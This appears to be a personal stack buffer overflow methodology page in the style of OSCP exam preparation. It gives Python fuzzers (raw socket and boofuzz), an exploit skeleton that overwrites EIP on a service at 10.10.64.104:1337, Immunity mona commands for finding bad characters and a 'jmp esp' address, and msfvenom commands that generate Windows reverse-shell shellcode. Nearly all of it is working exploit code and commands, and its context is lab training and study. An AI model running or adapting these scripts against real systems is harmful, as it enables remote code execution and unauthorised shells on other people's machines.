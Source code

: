 # My methodology

## Spiking/Fuzzing

### Raw sockets

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "127.0.0.1"
port = 9999
timeout = 2
buffer_step = 100
buffer_size_max = 3000

buffer = ""

for i in range(0,buffer_size_max, buffer_step):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("HTER "+buffer[:i]+"\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Check that the EIP register has been overwritten by A's \(\x41\). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

### Boofuzz

```python
#!/usr/bin/env python3
from boofuzz import *

RHOST = "127.0.0.1"
RPORT = 9999

s = Session(target=Target(connection=SocketConnection(RHOST,RPORT,proto="tcp")))

s_initialize("OSCP_OVERFLOW1")
s_string("OVERFLOW1", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("fuzzme")

s.connect(s_get("OSCP_OVERFLOW1"))
s.fuzz()
```

## Finding and controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "10.10.64.104"
port = 1337

offset = 1978

buf  = b""
buf += b"OVERFLOW1 " # prefix
buf += b"1" * offset # overflow
buf += b"2222" # return
buf += b"\x90"*16 # padding
buf += b"" # payload
buf += b"" # postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending buffer...")
    s.send(buf + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

## Finding bad characters

`!mona bytearray -b "\x00"`

```python
#!/usr/bin/env python3
for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
print()
```

`!mona compare -f .\bytearray.bin -a <address>`

## Finding the right module

You can list modules with `!mona modules` command, and find unsecure module.

Then try to find position of `jmp esp` instruction\(`FF E4`\)

```bash
!mona jmp -r esp
!mona jmp -r esp -cpb "\x00"
!mona find -s "\xff\xe4" -m <unsecure_module>
```

## Generating shellcode

```bash
msfvenom -p <payload> LHOST=<lhost> LPORT=<lport> EXITFUNC=thread -f c -a <architecture> -b <bad_bytes>

msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= EXITFUNC=thread -b "\x00" -f py

# example
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8990 EXITFUNC=thread -f c -a x86 -b "\x00"
```

## Root

